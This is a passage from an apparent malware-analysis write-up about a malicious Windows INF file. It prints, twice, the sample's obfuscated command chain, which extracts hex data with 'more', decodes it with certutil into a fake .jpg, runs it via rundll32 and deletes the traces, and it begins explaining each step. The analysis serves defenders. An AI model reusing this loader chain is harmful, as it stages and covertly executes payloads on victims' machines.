```
 %11%\cMd.exe /C morE /E +29 %TEmP%\VN.inf > %TEmP%\cvr.tmp  
 && CERTUtIL -DEcoDEHex %TEmP%\cvr.tmp %TEmP%\xhd.jpg  
 && ruNDLl32 %TEmP%\xhd.jpg,main && del %TEmP%\cvr.tmp  
 && dEL %TEmP%\xhd.jpg && del %TEmP%\VN.inf  
  
  
  
 [Strings]  
  
  
 servICEName = ">"  
  
 SHoRtsvCnaME = "<"  
  
  
4D5A> 
```
many flags have been triggered right now the full command line seems to be malicious and the existence of 4D5A which refers to  **_MZ_** signature and the existence of a PE payload, so I put a breakpoint on the call to tAcKs function which is declaretion to  **LaunchINFSectionW**.

![](https://miro.medium.com/v2/resize:fit:875/1*SnLK4M3UxEcLHWc6othscg.png)

so what is meant by INF files ?!

## INF file :

An INF file, short for information file, is a plain text file used by Microsoft Windows operating systems for the installation of software and drivers. They are essential components in the Windows Setup API, providing the instructions and information needed to properly install and configure devices and software.

so let’s check the INF file dropped in the Temp Directory and try to simulate the command found above to know what is going on.

![](
https://miro.medium.com/v2/resize:fit:875/1
*PACp15t3i7NtEI_0V8arTw.png)

so let’s breakdown the executed command
```powershell
%11%\cMd.exe /C morE /E +29 %TEmP%\VN.inf > %TEmP%\cvr.tmp  
 && CERTUtIL -DEcoDEHex %TEmP%\cvr.tmp %TEmP%\xhd.jpg  
 && ruNDLl32 %TEmP%\xhd.jpg,main && del %TEmP%\cvr.tmp  
 && dEL %TEmP%\xhd.jpg && del %TEmP%\VN.inf
```
> **_%11%cmd.exe_**

%11% referee to system32 path to run cmd.exe with admin permission

> **_morE /E +29 %TEmP%\VN.inf_**  **_> %TEmP%\cvr.tmp_**

this command saves the content of VN.inf starting from the end of line 29 till the end of VN.inf file to cvr.tmp file
